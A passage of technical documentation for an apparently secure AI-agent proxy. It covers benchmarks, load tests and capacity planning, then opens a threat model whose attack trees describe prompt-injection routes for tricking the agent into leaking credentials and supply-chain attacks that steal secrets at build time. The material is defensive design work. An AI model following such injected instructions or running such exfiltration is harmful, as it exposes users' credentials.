**Ref:** `proxy/benches/performance.rs:16-40`

```rust
fn benchmark_sanitization(c: &mut Criterion) {
    let mut group = c.benchmark_group("sanitization");

    let map = create_secret_map(10);
    let small_text = "This is a test with SECRET_0 and SECRET_1 in it.";
    let medium_text = format!("{} ", "test content with SECRET_5 embedded".repeat(100));
    let large_text = format!("{} ", "test content with SECRET_3 embedded".repeat(1000));

    group.throughput(Throughput::Bytes(small_text.len() as u64));
    group.bench_function("sanitize_small", | b | {
        b.iter( | | map.sanitize(black_box(small_text)))
    });

    group.throughput(Throughput::Bytes(medium_text.len() as u64));
    group.bench_function("sanitize_medium", | b | {
        b.iter( | | map.sanitize(black_box(&medium_text)))
    });

    group.throughput(Throughput::Bytes(large_text.len() as u64));
    group.bench_function("sanitize_large", | b | {
        b.iter( | | map.sanitize(black_box(&large_text)))
    });

    group.finish();
}
```

| Benchmark | Input Size | Secret Count | Throughput Metric |
| --- | --- | --- | --- |
| `sanitize_small` | ~50 bytes | 2 matches | Bytes/operation |
| `sanitize_medium` | ~4 KB | 100 matches | Bytes/operation |
| `sanitize_large` | ~40 KB | 1000 matches | Bytes/operation |

The `Throughput::Bytes()` annotation enables Criterion to report throughput in bytes/second alongside wall-clock time, providing a size-independent performance metric.

#### 1.4 Injection Benchmarks

**Ref:** `proxy/benches/performance.rs:42-66`

The injection benchmarks measure the reverse operation — replacing dummy credential placeholders with real secret values:

| Benchmark | Input Size | Operation | Direction |
| --- | --- | --- | --- |
| `inject_small` | ~40 bytes | `SECRET_0` → real value | Dummy → Real |
| `inject_medium` | ~4 KB | 100 replacements | Dummy → Real |
| `inject_large` | ~40 KB | 1000 replacements | Dummy → Real |

Injection uses the same Aho-Corasick automaton as sanitization, with the pattern-to-value mapping reversed. The performance characteristics are expected to be symmetric because both operations perform the same automaton traversal and string replacement.

#### 1.5 SecretMap Construction Benchmarks

**Ref:** `proxy/benches/performance.rs:68-82`

```rust
fn benchmark_secret_map_creation(c: &mut Criterion) {
    let mut group = c.benchmark_group("secret_map_creation");

    for size in [1, 10, 50, 100, 500].iter() {
        group.bench_with_input(BenchmarkId::from_parameter(size), size, | b, &size | {
            let mut secrets = HashMap::new();
            for i in 0..size {
                secrets.insert(format!("SECRET_{}", i), format!("value_{}", i));
            }
            b.iter( | | SecretMap::new(black_box(secrets.clone())).unwrap());
        });
    }

    group.finish();
}
```

| Secret Count | Aho-Corasick Patterns | Expected Time |
| --- | --- | --- |
| 1 | 2 (dummy + real) | ~10-50us |
| 10 | 20 | ~50-100us |
| 50 | 100 | ~200-500us |
| 100 | 200 | ~500us-1ms |
| 500 | 1000 | ~1-2ms |

SecretMap construction happens once at proxy startup (not per-request). Even at 500 secrets (an extreme case), the 1-2ms construction time is negligible compared to the hours-long proxy uptime.

#### 1.6 Binary Sanitization Benchmarks

**Ref:** `proxy/benches/performance.rs:84-108`

```rust
fn benchmark_byte_sanitization(c: &mut Criterion) {
    let mut group = c.benchmark_group("byte_sanitization");

    let map = create_secret_map(10);
    let small_bytes: Vec<u8> = b"This is binary with SECRET_0 data.".to_vec();
    let medium_bytes: Vec<u8> = b"Binary data with SECRET_5 embedded ".repeat(100);
    let large_bytes: Vec<u8> = b"Binary data with SECRET_3 embedded ".repeat(1000);
    ...
}
```

| Benchmark | Input Size | Type | Expected Time |
| --- | --- | --- | --- |
| `sanitize_bytes_small` | ~32 bytes | Binary | ~10-50us |
| `sanitize_bytes_medium` | ~3.4 KB | Binary | ~1-3ms |
| `sanitize_bytes_large` | ~34 KB | Binary | ~10-30ms |

Binary sanitization operates on raw byte slices rather than UTF-8 strings, enabling correct handling of non-text content (images, compressed data, protocol buffers) without UTF-8 validation overhead.

#### 1.7 No-Match Path Optimization

**Ref:** `proxy/benches/performance.rs:110-125`

```rust
fn benchmark_no_match_path(c: &mut Criterion) {
    let mut group = c.benchmark_group("no_match_path");

    let map = create_secret_map(10);
    let text_without_secrets = "This text contains no secrets at all, just regular content.";

    group.bench_function("sanitize_no_match", | b | {
        b.iter( | | map.sanitize(black_box(text_without_secrets)))
    });

    group.bench_function("inject_no_match", | b | {
        b.iter( | | map.inject(black_box(text_without_secrets)))
    });

    group.finish();
}
```

The no-match path is the common case — most HTTP request/response bodies do not contain credentials. The Aho-Corasick automaton still performs a full O(N) scan, but the replacement step is skipped entirely. This benchmark measures the lower bound of per-request overhead.

#### 1.8 Multi-Secret Scaling

**Ref:** `proxy/benches/performance.rs:127-142`

```rust
fn benchmark_multiple_secrets(c: &mut Criterion) {
    let mut group = c.benchmark_group("multiple_secrets");

    for count in [1, 5, 10, 20, 50].iter() {
        group.bench_with_input(BenchmarkId::new("secrets", count), count, | b, &count | {
            let map = create_secret_map(count);
            let mut text = String::new();
            for i in 0..count {
                text.push_str(&format!("SECRET_{} ", i));
            }
            b.iter( | | map.sanitize(black_box(&text)));
        });
    }

    group.finish();
}
```

This benchmark measures how sanitization scales with the number of secrets in the text. The Aho-Corasick algorithm guarantees O(N) text scanning regardless of pattern count, but replacement operations scale with match count.

---

### 2. Performance Targets

#### 2.1 Latency Requirements

**Ref:** `proxy/PERFORMANCE.md:13-21`

| Operation | p50 | p95 | p99 | Max |
| --- | --- | --- | --- | --- |
| Health check | <5ms | <10ms | <20ms | <50ms |
| Metrics scrape | <10ms | <25ms | <50ms | <100ms |
| Small payload sanitization (<1KB) | <10ms | <25ms | <50ms | <100ms |
| Medium payload sanitization (1-100KB) | <50ms | <100ms | <200ms | <500ms |
| Large payload sanitization (>100KB) | <200ms | <500ms | <1000ms | <2000ms |
| Proxy request (passthrough) | <20ms | <50ms | <100ms | <200ms |

#### 2.2 Throughput Requirements

**Ref:** `proxy/PERFORMANCE.md:23-29`

| Metric | Target | Status |
| --- | --- | --- |
| Requests per second | >1,000 req/s | Required |
| Concurrent connections | >1,000 | Required |
| Data throughput | >10 MB/s | Required |
| Secrets sanitized/second | >10,000 | Required |

#### 2.3 Resource Utilization Limits

**Ref:** `proxy/PERFORMANCE.md:31-38`

| Resource | Container Limit | Target | Critical |
| --- | --- | --- | --- |
| CPU | 4 cores | <70% | <90% |
| Memory | 2 GB | <1.5 GB | <1.8 GB |
| File descriptors | 65,536 | <10,000 | <30,000 |
| Network I/O | 1 Gbps | <500 Mbps | <800 Mbps |

#### 2.4 Availability Targets

**Ref:** `proxy/PERFORMANCE.md:40-47`

| Metric | Target | Status |
| --- | --- | --- |
| Uptime SLA | 99.9% | Required |
| Error rate | <0.1% | Required |
| Timeouts | <0.01% | Required |
| Successful requests | >99.9% | Required |

---

### 3. k6 Load Testing

#### 3.1 Test Infrastructure

The load testing suite uses k6 (Grafana Labs) with four test scenarios orchestrated by a shell runner:

**Ref:** `proxy/tests/load/run_all_load_tests.sh:15-16`

```bash
PROXY_URL="${PROXY_URL:-http://localhost:3000}"
TESTS=("api_load" "proxy_sanitization" "stress_test" "soak_test")
```

```mermaid
flowchart TD
    START["run_all_load_tests.sh"] --> T1["api_load.js<br/>3 scenarios<br/>9 minutes"]
    START --> T2["proxy_sanitization.js<br/>5 stages<br/>8 minutes"]
    START --> T3["stress_test.js<br/>7 stages<br/>14 minutes"]
    START --> T4["soak_test.js<br/>1 scenario<br/>30 minutes"]

    T1 --> R1["api-load-results.json"]
    T2 --> R2["proxy-sanitization-results.json"]
    T3 --> R3["stress-test-results.json"]
    T4 --> R4["soak-test-results.json"]

    R1 --> SUMMARY["Test Summary<br/>Pass/Fail Report"]
    R2 --> SUMMARY
    R3 --> SUMMARY
    R4 --> SUMMARY

    style T1 fill:#3498db,color:#fff
    style T2 fill:#e74c3c,color:#fff
    style T3 fill:#e67e22,color:#fff
    style T4 fill:#27ae60,color:#fff
    style SUMMARY fill:#9b59b6,color:#fff
```

#### 3.2 Test 1: API Load Test

**Ref:** `proxy/tests/load/api_load.js:1-112`

The API load test exercises the `/health` and `/metrics` endpoints under three concurrent scenarios:

| Scenario | Executor | Duration | Peak Load | Purpose |
| --- | --- | --- | --- | --- |
| `constant_load` | `constant-arrival-rate` | 2 min | 100 req/s | Steady-state throughput |
| `ramping_load` | `ramping-arrival-rate` | 9 min | 10→50→100→200→100→10 req/s | Gradual scaling behavior |
| `spike_test` | `ramping-arrival-rate` | 2.5 min | 10→500→10 req/s | Sudden burst recovery |

**Ref:** `proxy/tests/load/api_load.js:9-48`

```javascript
export const options = {
  scenarios: {
    constant_load: {
      executor: 'constant-arrival-rate',
      rate: 100,
      timeUnit: '1s',
      duration: '2m',
      preAllocatedVUs: 50,
      maxVUs: 200,
      gracefulStop: '30s',
    },
    spike_test: {
      executor: 'ramping-arrival-rate',
      startRate: 10,
      timeUnit: '1s',
      preAllocatedVUs: 100,
      maxVUs: 1000,
      stages: [
        { target: 10, duration: '1m' },
        { target: 500, duration: '30s' },
        { target: 10, duration: '1m' },
      ],
    },
  },
  thresholds: {
    http_req_duration: ['p(95)<500', 'p(99)<1000'],
    http_req_failed: ['rate<0.01'],
  },
};
```

Threshold enforcement:

| Metric | Threshold | Action on Failure |
| --- | --- | --- |
| p95 latency | <500ms | Test fails |
| p99 latency | <1000ms | Test fails |
| Error rate | <1% | Test fails |
| Custom error rate | <5% | Test fails |

#### 3.3 Test 2: Proxy Sanitization Load Test

**Ref:** `proxy/tests/load/proxy_sanitization.js:1-108`

This test exercises the core credential sanitization path with realistic payloads containing dummy secrets:

```javascript
const DUMMY_SECRETS = [
  'DUMMY_API_KEY',
  'DUMMY_TOKEN',
  'DUMMY_SECRET',
  'DUMMY_PASSWORD',
  'DUMMY_CREDENTIAL',
];

export default function () {
  const secret = DUMMY_SECRETS[randomIntBetween(0, DUMMY_SECRETS.length - 1)];
  const payloadSize = randomIntBetween(100, 5000);

  const payload = JSON.stringify({
    data: randomString(payloadSize),
    metadata: {
      credential_token: secret,
      timestamp: new Date().toISOString(),
      request_id: randomString(16),
    },
    config: {
      api_key: secret,
      endpoint: `${TARGET_URL}/test`,
    },
  });

  const params = {
    headers: {
      'Content-Type': 'application/json',
      'X-Authorization': secret,
      'X-Api-Key': secret,
    },
  };
  ...
}
```

| Stage | Duration | Target VUs | Purpose |
| --- | --- | --- | --- |
| Ramp up | 1 min | 50 | Gradual load increase |
| Sustained | 3 min | 100 | Steady-state sanitization |
| Peak | 1 min | 200 | Peak load |
| Hold | 2 min | 200 | Peak sustain |
| Ramp down | 1 min | 0 | Graceful shutdown |

Verification checks:

| Check | Expression | Purpose |
| --- | --- | --- |
| Status 200/201 | `r.status === 200 or 201` | Request succeeded |
| Response time < 200ms | `r.timings.duration < 200` | p95 threshold |
| Response time < 500ms | `r.timings.duration < 500` | p99 threshold |
| Has body | `r.body.length > 0` | Response not empty |
| No secret leakage | `!DUMMY_SECRETS.some(s => r.body.includes(s))` | Secrets stripped from response |

The `no secret leakage` check is the critical security validation — it confirms that dummy credentials embedded in the request payload do not appear in the response body, proving that sanitization is effective under load.

#### 3.4 Test 3: Stress Test

**Ref:** `proxy/tests/load/stress_test.js:1-82`

The stress test progressively increases load until the system breaks:

| Stage | Duration | Target VUs |
| --- | --- | --- |
| Ramp 1 | 2 min | 100 |
| Ramp 2 | 2 min | 250 |
| Ramp 3 | 2 min | 500 |
| Ramp 4 | 2 min | 750 |
| Ramp 5 | 2 min | 1000 |
| Sustain | 2 min | 1000 |
| Ramp down | 2 min | 0 |

**Ref:** `proxy/tests/load/stress_test.js:55-81`

```javascript
export function handleSummary(data) {
  const metrics = data.metrics;
  const summary = {
    results: {
      max_vus: Math.max(...Object.values(metrics.vus.values)),
      breaking_point: breakingPoint,
      p95_latency_ms: Math.round(metrics.http_req_duration['p(95)'] * 100) / 100,
      error_rate: Math.round(metrics.http_req_failed.rate * 10000) / 10000,
    },
    conclusions: {
      max_concurrent_users: breakingPoint | | 'Did not reach breaking point',
      recommended_max_users: breakingPoint ? Math.floor(breakingPoint * 0.75) : 750,
    },
  };
  ...
}
```

The stress test determines the recommended maximum operating load as 75% of the breaking point. For example, if the system begins failing at 500 VUs, the recommended maximum is 375 VUs, providing a 25% safety margin.

#### 3.5 Test 4: Soak Test

**Ref:** `proxy/tests/load/soak_test.js:1-93`

The soak test runs a sustained 100 VU load for 30 minutes to detect memory leaks and performance degradation:

| Parameter | Value | Purpose |
| --- | --- | --- |
| VUs | 100 (constant) | Representative production load |
| Duration | 30 minutes | Sufficient to reveal slow memory growth |
| Minimum iterations | 18,000 | Statistical significance |
| p95 threshold | <300ms | Tighter than stress test |
| Error rate | <0.1% | Stricter than other tests |

**Ref:** `proxy/tests/load/soak_test.js:55-93`

```javascript
const summary = {
    results: {
      total_requests: metrics.iterations.values.count,
      p95_latency_ms: ...,
      p99_latency_ms: ...,
      error_rate: ...,
      memory_leak_detected: false,
    },
    analysis: {
      latency_trend: 'stable',
      throughput_consistent: metrics.iterations.values.rate > 1.5,
    },
};

if (metrics.http_req_duration.trend === 'increasing') {
    summary.results.memory_leak_detected = true;
    summary.analysis.latency_trend = 'increasing';
    summary.passed = false;
}
```

The soak test detects memory leaks through latency trend analysis — if response times increase over the 30-minute window, it indicates possible memory pressure causing GC pauses or allocation failures.

---

### 4. Alerting Thresholds

#### 4.1 Performance Alerting Matrix

**Ref:** `proxy/PERFORMANCE.md:129-139`

| Metric | Warning | Critical | Action |
| --- | --- | --- | --- |
| p95 latency | >300ms | >500ms | Investigate performance degradation |
| p99 latency | >800ms | >1000ms | Immediate investigation required |
| Error rate | >0.5% | >1% | Check logs, possible service degradation |
| CPU usage | >80% | >90% | Scale horizontally |
| Memory usage | >1.8 GB | >1.9 GB | Check for memory leaks |
| Connection count | >800 | >950 | Prepare to scale |

#### 4.2 Performance Regression Detection

**Ref:** `proxy/PERFORMANCE.md:229-237`

```yaml
performance-tests:
  script:

    - cargo bench -- --save-baseline main
    - cargo bench -- --baseline main

  allow_failure: false
```

The CI pipeline saves a performance baseline on the main branch and compares subsequent runs against it. Criterion reports statistically significant regressions (>5% latency increase) as test failures, preventing silent performance degradation from merging.

| Regression Type | Detection Threshold | Action |
| --- | --- | --- |
| Latency increase | >10% from baseline | Block merge |
| Throughput decrease | >5% from baseline | Block merge |
| Memory growth | >10%/hour (soak test) | Block merge |

---

### 5. Mutation Testing

#### 5.1 cargo-mutants Configuration

**Ref:** `proxy/MUTATION_TESTING.md:22-53`

```toml
exclude_globs = ["*/tests/*", "*/benches/*", "*/target/*"]
timeout_secs = 60
jobs = 4
min_test_coverage = 80

operators = [
    "arithmetic", "boolean", "comparison", "conditional",
    "function_call", "literal", "logical", "relational", "return",
]
```

| Parameter | Value | Rationale |
| --- | --- | --- |
| `timeout_secs` | 60 | Prevent infinite loops in mutated code |
| `jobs` | 4 | Parallel mutation execution |
| `min_test_coverage` | 80% | Minimum mutation score target |
| Operators | 9 types | Comprehensive mutation coverage |

#### 5.2 Mutation Score Targets

| Module | Target | Rationale |
| --- | --- | --- |
| `sanitizer` | >85% | Core security logic requires highest test quality |
| `proxy` | >80% | Request handling must be thoroughly tested |
| `strategy` | >75% | Strategy pattern logic is lower risk |
| Overall | >80% | Project-wide minimum |

#### 5.3 Mutation Operator Examples

| Operator | Original | Mutant | Test Detection |
| --- | --- | --- | --- |
| Arithmetic | `a + b` | `a - b` | Boundary tests |
| Boolean | `if is_valid` | `if false` | Logic tests |
| Comparison | `value > threshold` | `value >= threshold` | Boundary tests |
| Literal | `MAX_SIZE = 1024` | `MAX_SIZE = 0` | Constant tests |
| Return | `return Ok(x)` | `return Ok(default)` | Return value assertions |

#### 5.4 CI Integration

Mutation testing runs as part of the standard CI pipeline. Pre-merge checklist:

1. Run mutation tests on changed files
2. No new surviving mutants introduced
3. Mutation score maintained or improved
4. Document any intentional exclusions

---

### 6. Capacity Planning

#### 6.1 Current Capacity (Per Instance)

**Ref:** `proxy/PERFORMANCE.md:169-172`

| Dimension | Capacity | Basis |
| --- | --- | --- |
| Concurrent users | 200-500 | Stress test breaking point |
| Requests/second | 1,000-2,000 | API load test throughput |
| Data throughput | 10-50 MB/s | Benchmark throughput measurements |

#### 6.2 Vertical Scaling

**Ref:** `proxy/PERFORMANCE.md:175-180`

| Resource | Current | Scaled | Expected Improvement |
| --- | --- | --- | --- |
| CPU | 4 cores | 8 cores | 1.5-2x capacity |
| Memory | 2 GB | 4 GB | Supports more concurrent connections |
| Network | 1 Gbps | 10 Gbps | 10x throughput ceiling |

Vertical scaling is the simplest approach but has diminishing returns. The Aho-Corasick algorithm is single-threaded per request, so additional cores benefit concurrent request handling rather than individual request latency.

#### 6.3 Horizontal Scaling

**Ref:** `proxy/PERFORMANCE.md:182-185`

Multiple proxy instances can run behind a load balancer (e.g., HAProxy, nginx). Scaling is linear because each request is independent — there is no shared state between proxy instances beyond the credential configuration.

| Instances | Expected Capacity | Use Case |
| --- | --- | --- |
| 1 | 1,000-2,000 req/s | Development, single-agent |
| 2 | 2,000-4,000 req/s | Production with HA |
| 3 | 3,000-6,000 req/s | Multi-agent production |

#### 6.4 Auto-Scaling Rules

**Ref:** `proxy/PERFORMANCE.md:188-193`

| Condition | Action | Cooldown |
| --- | --- | --- |
| CPU > 80% for 2 min | Add 1 instance | 5 min |
| Connections > 800 for 1 min | Add 1 instance | 3 min |
| p95 latency > 400ms for 3 min | Add 1 instance | 5 min |
| CPU < 30% for 10 min | Remove 1 instance | 10 min |

The cooldown periods prevent oscillation — rapid scaling up and down in response to transient load spikes. The asymmetric cooldowns (faster scale-up, slower scale-down) favor availability over cost optimization.

---

### 7. Performance Baselines

#### 7.1 Benchmark Expected Results

**Ref:** `proxy/PERFORMANCE.md:49-81`

#### Sanitization and Injection

| Input Size | Expected Time | Throughput |
| --- | --- | --- |
| <100 bytes | 1-5 us | >10 MB/s |
| 1-10 KB | 50-200 us | >10 MB/s |
| >100 KB | 1-5 ms | >10 MB/s |

#### SecretMap Construction

| Secret Count | Expected Time |
| --- | --- |
| 10 | 50-100 us |
| 100 | 200-500 us |
| 500 | 1-2 ms |

#### Binary Sanitization

| Input Size | Expected Time |
| --- | --- |
| 1 KB | 10-50 us |
| 100 KB | 1-3 ms |
| 1 MB | 10-30 ms |

#### 7.2 Load Test Expected Results

**Ref:** `proxy/PERFORMANCE.md:83-109`

| Test | Key Metric | Target |
| --- | --- | --- |
| API load | p95 latency | <200ms |
| API load | Error rate | <0.1% |
| API load | Throughput | >1,000 req/s |
| Stress test | Breaking point | >500 concurrent VUs |
| Stress test | Recommended max | 75% of breaking point |
| Soak test | Duration | 30 min sustained |
| Soak test | Memory leak | None detected |
| Soak test | Error rate | <0.1% |
| Proxy sanitization | p95 latency | <200ms |
| Proxy sanitization | p99 latency | <500ms |
| Proxy sanitization | Error rate | <0.1% |

#### 7.3 Latency Distribution by Operation

```mermaid
flowchart LR
    subgraph "Latency Tiers"
        T1["Tier 1: Sub-ms<br/>Health check, metrics<br/><5ms p50"]
        T2["Tier 2: Low-ms<br/>Small sanitization<br/><10ms p50"]
        T3["Tier 3: Mid-ms<br/>Medium sanitization, passthrough<br/><50ms p50"]
        T4["Tier 4: Sub-second<br/>Large sanitization<br/><200ms p50"]
    end

    T1 --> T2 --> T3 --> T4

    style T1 fill:#27ae60,color:#fff
    style T2 fill:#3498db,color:#fff
    style T3 fill:#f39c12,color:#fff
    style T4 fill:#e74c3c,color:#fff
```

---

### 8. Common Performance Issues

#### 8.1 Diagnosis Matrix

**Ref:** `proxy/PERFORMANCE.md:217-225`

| Issue | Symptoms | Root Cause | Solution |
| --- | --- | --- | --- |
| Memory leak | Increasing memory over time | Unbounded collection growth | Run soak test, check for Vec/HashMap without bounds |
| CPU spike | Intermittent high CPU | Inefficient pattern on pathological input | Profile with `perf`, add input size limits |
| Slow sanitization | High latency on large payloads | Aho-Corasick backtracking | Verify automaton is using DFA mode |
| Connection leak | FD exhaustion | Missing cleanup in error paths | Audit drop handlers, check for missing `dec_active_connections` |
| Lock contention | High latency under load | RwLock hold time too long | Reduce lock scope, use lock-free structures |

#### 8.2 Optimization Path

When performance degrades, follow this diagnostic sequence:

1. Check network latency (`ping` backend service)
2. Verify no resource contention (`top`, `htop`)
3. Review sanitization patterns for pathological inputs
4. Enable debug logging (`RUST_LOG=debug`) to trace request lifecycle
5. Run targeted Criterion benchmarks on the suspected regression

---

### Key Takeaways

1. **The Aho-Corasick algorithm provides O(N) guaranteed performance regardless of secret count.** The benchmark suite confirms linear scaling across input sizes from 50 bytes to 40 KB and secret counts from 1 to 500. SecretMap construction (a one-time startup cost) completes in under 2ms even for 500 secrets. This ensures the proxy adds negligible latency to every request.

2. **Four k6 load tests cover the full performance spectrum.** API load (steady-state + ramping + spike), proxy sanitization (realistic credential payloads), stress (breaking point identification), and soak (30-minute memory leak detection). Together they verify throughput targets (>1,000 req/s), latency targets (p95 <200ms, p99 <500ms), error rates (<0.1%), and memory stability.

3. **The stress test identifies the system breaking point and derives safe operating limits.** By progressively increasing load from 100 to 1,000 VUs, the test determines where the system begins failing. The recommended maximum operating load is 75% of the breaking point, providing a 25% safety margin for production deployment.

4. **Mutation testing validates test quality, not just code coverage.** The `cargo-mutants` configuration uses 9 mutation operators (arithmetic, boolean, comparison, conditional, function call, literal, logical, relational, return) with a minimum 80% mutation score target. The sanitizer module targets 85% because it is the most security-critical component — a surviving mutant in the sanitization logic could represent a credential leak.

5. **Horizontal scaling is the primary capacity strategy.** The proxy is stateless between requests (credential configuration is loaded once at startup), enabling linear scaling through instance replication. Two instances behind a load balancer provide both high availability and double throughput. Auto-scaling rules trigger on CPU >80%, connections >800, or p95 latency >400ms, with asymmetric cooldowns favoring availability over cost.

---

# Section 12: Threat Model & Attack Surface

### Overview

This document presents a comprehensive threat model for the SLAPENIR secure AI agent execution environment. It defines four adversary profiles with structured attack trees, maps each attack path to the 10-layer defense architecture (WP-04), and conducts a comparative analysis against HashiCorp Vault Agent, AWS IAM Roles Anywhere, Kubernetes NetworkPolicies, and Envoy sidecar proxies. The analysis draws on the security bypass proof-of-concept test suite (`security_bypass_tests.rs`), TLS acceptance tests (`tls_acceptor_tests.rs`), supply chain audit configurations (`deny.toml`, `audit.toml`), and the complete proxy source to enumerate known vulnerabilities, residual risk, and recommended mitigations. The 10-layer defense architecture is detailed in [Section 4: Security Architecture](#section-4-security-architecture). Network isolation mechanisms including iptables rules and DNS filtering are covered in [Section 6: Network Isolation Deep-Dive](#section-6-network-isolation-deep-dive).

---

### 1. Adversary Profiles

#### 1.1 Profile Definitions

SLAPENIR assumes four distinct adversary categories, each with different capabilities, access levels, and objectives:

| Attribute | A1: Prompt Injection | A2: Malicious Dependency | A3: Compromised Agent | A4: Insider |
| --- | --- | --- | --- | --- |
| **Access level** | LLM input only | Build-time supply chain | Full agent process | Host infrastructure |
| **Capability** | Induce agent behavior | Execute arbitrary code in build | Read/write agent memory, filesystem | Modify configuration, restart services |
| **Objective** | Exfiltrate credentials to external service | Embed backdoor, steal secrets at build time | Extract credentials from process, bypass proxy | Disable security controls, access raw credentials |
| **Sophistication** | Low (crafted text) | Medium (trojanized package) | High (runtime exploitation) | High (admin access) |
| **Mitigation burden** | L1 + L4 + L7 (proxy-side) | L1 + L6 (build isolation) | L2 + L4 + L5 + L6 + L7 (all layers) | L3 + L5 + L10 (authentication + audit) |

#### 1.2 Adversary Profile Architecture

```mermaid
flowchart TD
    subgraph "Adversary Profiles"
        A1["A1: Prompt Injection<br/>Capability: LLM text input<br/>Objective: Credential exfiltration"]
        A2["A2: Malicious Dependency<br/>Capability: Build-time code exec<br/>Objective: Supply chain backdoor"]
        A3["A3: Compromised Agent<br/>Capability: Full process access<br/>Objective: Memory/FS credential theft"]
        A4["A4: Insider Threat<br/>Capability: Host infrastructure<br/>Objective: Disable controls"]
    end

    subgraph "Defense Layers"
        L1["L1: Zero-Knowledge"]
        L2["L2: Network Isolation"]
        L3["L3: mTLS Auth"]
        L4["L4: Credential Sanitization"]
        L5["L5: Memory Safety"]
        L6["L6: Traffic Enforcement"]
        L7["L7: Response Sanitization"]
        L8["L8: Size Limits"]
        L9["L9: Content-Length"]
        L10["L10: Observability"]
    end

    A1 --> | blocked by | L1
    A1 --> | blocked by | L4
    A1 --> | blocked by | L7
    A2 --> | blocked by | L1
    A2 --> | blocked by | L6
    A3 --> | blocked by | L2
    A3 --> | blocked by | L4
    A3 --> | blocked by | L5
    A3 --> | blocked by | L6
    A3 --> | blocked by | L7
    A4 --> | blocked by | L3
    A4 --> | blocked by | L5
    A4 --> | blocked by | L10

    style A1 fill:#e74c3c,color:#fff
    style A2 fill:#e67e22,color:#fff
    style A3 fill:#9b59b6,color:#fff
    style A4 fill:#3498db,color:#fff
    style L1 fill:#27ae60,color:#fff
    style L4 fill:#27ae60,color:#fff
    style L5 fill:#27ae60,color:#fff
    style L6 fill:#27ae60,color:#fff
```

---

### 2. Attack Trees

#### 2.1 Attack Tree: A1 — Prompt Injection

The prompt injection adversary attempts to manipulate the AI agent into leaking credentials through crafted input. The agent never possesses real credentials (L1), so the attack surface is limited to the proxy's sanitization pipeline.

```mermaid
flowchart TD
    ROOT["GOAL: Exfiltrate credentials<br/>via prompt injection"]
    ROOT --> P1["Embed instruction to<br/>include API key in output"]
    ROOT --> P2["Trick agent into<br/>HTTP request with secret"]
    ROOT --> P3["Exploit sanitization<br/>bypass in response"]

    P1 --> P1A["Agent outputs DUMMY_*<br/>(not real credential)"]
    P1A --> FAIL1["BLOCKED: L1 Zero-Knowledge<br/>Agent never sees real keys"]

    P2 --> P2A["Agent sends request<br/>through proxy"]
    P2A --> P2B["Proxy injects real<br/>credential into request"]
    P2B --> P2C["Upstream returns<br/>response with credential"]
    P2C --> P2D["Proxy sanitizes response<br/>body + headers"]
    P2D --> FAIL2["BLOCKED: L4 + L7<br/>Aho-Corasick sanitization<br/>of body + headers"]

    P3 --> P3A["Non-UTF-8 payload<br/>to bypass text scanner"]
    P3A --> P3B["sanitize_bytes() handles<br/>binary data"]
    P3B --> FAIL3["BLOCKED: L4 Fix A<br/>Binary-safe sanitization"]

    P3 --> P3C["Secret in response header<br/>(Set-Cookie, Location)"]
    P3C --> P3D["sanitize_headers() scans<br/>all header values"]
    P3D --> FAIL4["BLOCKED: L7 Fix B<br/>Header sanitization"]

    P3 --> P3E["Split secret across<br/>chunk boundaries"]
    P3E --> P3F["Full-body scan via<br/>sanitize_bytes()"]
    P3F --> FAIL5["BLOCKED: L4<br/>Full payload sanitization"]

    style ROOT fill:#e74c3c,color:#fff
    style FAIL1 fill:#27ae60,color:#fff
    style FAIL2 fill:#27ae60,color:#fff
    style FAIL3 fill:#27ae60,color:#fff
    style FAIL4 fill:#27ae60,color:#fff
    style FAIL5 fill:#27ae60,color:#fff
```

**Residual risk:** Prompt injection cannot exfiltrate credentials because the agent operates with `DUMMY_*` placeholders exclusively. The only path to credential exposure is a sanitization bypass, which is covered by the paranoid double-pass verification in `proxy/src/proxy.rs:318-324` (see [Section 5: Credential Lifecycle & Leak Prevention](#section-5-credential-lifecycle--leak-prevention) for sanitization details).

#### 2.2 Attack Tree: A2 — Malicious Dependency

The malicious dependency adversary compromises a build-time dependency (npm package, Cargo crate, or system library) to execute arbitrary code during the build phase.

```mermaid
flowchart TD
    ROOT["GOAL: Embed backdoor or<br/>steal secrets via dependency"]
    ROOT --> B1["Compromise npm<br/>package in agent"]
    ROOT --> B2["Compromise Rust<br/>crate in proxy"]
    ROOT --> B3["Compromise system<br/>package in base image"]

    B1 --> B1A["Package executes<br/>during npm install"]
    B1A --> B1B["Code runs in<br/>ALLOW_BUILD phase"]
    B1B --> B1C["Network access via<br/>NAT redirect to proxy"]
    B1C --> B1D["Proxy sanitizes<br/>outbound traffic"]
    B1D --> PARTIAL1["PARTIALLY BLOCKED: L6<br/>Build traffic proxied<br/>but secrets could leak via<br/>encoded channels"]

    B2 --> B2A["Malicious crate<br/>executes at runtime"]
    B2A --> B2B["Attempt to read<br/>proxy memory"]
    B2B --> B2C["Zeroize clears<br/>secrets on drop"]
    B2C --> FAIL1["BLOCKED: L5<br/>Zeroize + ZeroizeOnDrop"]

    B2 --> B2D["Malicious crate<br/>exfiltrates via network"]
    B2D --> B2E["Proxy is the<br/>network gateway"]
    B2E --> FAIL2["BLOCKED: L2 + L6<br/>No external path"]

    B3 --> B3A["Trojanized base<br/>image layer"]
    B3A --> B3B["cargo-deny audits<br/>Rust dependencies"]
    B3B --> B3C["cargo-audit checks<br/>known CVEs"]
    B3C --> PARTIAL2["PARTIALLY BLOCKED<br/>System packages not<br/>covered by deny.toml"]

    style ROOT fill:#e67e22,color:#fff
    style FAIL1 fill:#27ae60,color:#fff
    style FAIL2 fill:#27ae60,color:#fff
    style PARTIAL1 fill:#f39c12,color:#fff
    style PARTIAL2 fill:#f39c12,color:#fff
```

**Supply chain audit configuration:**

**Ref:** `proxy/deny.toml:1-20`

```toml
[advisories]
ignore = [
    { id = "RUSTSEC-2023-0071", reason = "Only affects MySQL, we use PostgreSQL" },
]

[licenses]
allow = ["MIT", "Apache-2.0", "BSD-2-Clause", "BSD-3-Clause", "ISC", "Zlib"]

[bans]
multiple-versions = "warn"
```

**Ref:** `proxy/audit.toml:1-11`

```toml
[advisories]
ignore = ["RUSTSEC-2023-0071"]
```

The `deny.toml` configuration enforces three supply chain controls:

1. **Advisory database** — flags known CVEs from RustSec, with documented exceptions
2. **License allowlist** — blocks copyleft or unlicensed dependencies
3. **Duplicate crate detection** — warns on multiple versions (potential supply chain confusion)

**Residual risk:** The `ALLOW_BUILD` phase (WP-06 Section 4) provides controlled network access for package installation. A sophisticated build-time adversary could encode credential data in package metadata, DNS queries, or HTTPS request patterns that pass through the proxy. The `bans.multiple-versions = "warn"` setting does not block duplicate crates — only warns. System-level packages (apk in Wolfi base image) are not covered by `cargo-deny`.

#### 2.3 Attack Tree: A3 — Compromised Agent

